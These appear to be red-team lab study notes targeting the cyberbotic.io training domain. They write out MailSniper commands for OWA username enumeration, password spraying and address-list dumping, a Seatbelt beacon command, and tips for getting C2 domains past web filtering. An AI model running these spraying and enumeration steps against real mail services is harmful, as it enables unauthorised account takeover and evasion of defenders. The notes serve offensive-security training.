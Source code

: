 # Cobalt Strike 
- see cobalt strike file 

# External Recon Tools

- whois 
- dig
- dnscan
- other osint tools known

# Initial compromise (DISABLE WINDOWS DEFENDER ON ATTACKER MACHINE) 

-Mail Sniper 
-namesmash.py

**Used for attacking OWA Exchange service at MAIL DOMAIN that was found during the external recon.**

**Technique: Password Spraying**

>PS C:\Users\Attacker> ipmo C:\Tools\MailSniper\MailSniper.ps1

##### Enumerate the NetBIOS name of the target domain with Invoke-DomainHarvestOWA.

>PS C:\Users\Attacker> Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io

##### Next, we need to find valid usernames from the list of users enumerated from https://cyberbotic.io.

>ubuntu@DESKTOP-3BSK7NO ~> cd /mnt/c/Users/Attacker/Desktop/
>ubuntu@DESKTOP-3BSK7NO /m/c/U/A/Desktop> cat names.txt
*We could potentially skip this step if we knew the email address format from somewhere like hunter.io.*

##### Invoke-UsernameHarvestOWA uses a timing attack to validate which (if any) of these usernames are valid.

>PS C:\Users\Attacker> Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt

##### MailSniper can spray passwords against the valid account(s) identified using, Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS).

>PS C:\Users\Attacker> Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022

##### PS C:\Users\Attacker> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt

>PS C:\Users\Attacker> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt

##### If there are names here that we didn't find during initial recon, we can go back and do another round of spraying against them.


# Host Recon 
**Technique: Recon**

## SeatBelt 

https://github.com/GhostPack/Seatbelt

Checks security configs once you have a beacon on a compromised host

1. beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=system

One thing to note from this output is that there's a web proxy in place - squid.dev.cyberbotic.io.  This has implications for HTTP(S) C2 for a variety of reasons.

Web Categorisation

Domain names are categorised by vendors so that they can be lumped together for filtering purposes.  This is useful so that everything categorised as "gambling", "drugs", "violence", or "social media", etc can be blocked outright.  If the domain being used for part of your engagement ends up in a blocked category, it becomes effectively useless.

Two strategies for tackling this issue include:

    Obtaining a domain that is already in a desirable category.
    Requesting a change of category for a domain.


https://sitereview.bluecoat.com/#/  <<< checks site reps and categories 

https://github.com/mdsecactivebreach/Chameleon  <<< helps categorise c2 domains for red teams 

https://github.com/cobbr/Covenant <<< allows red teams to pin their c2 certs 







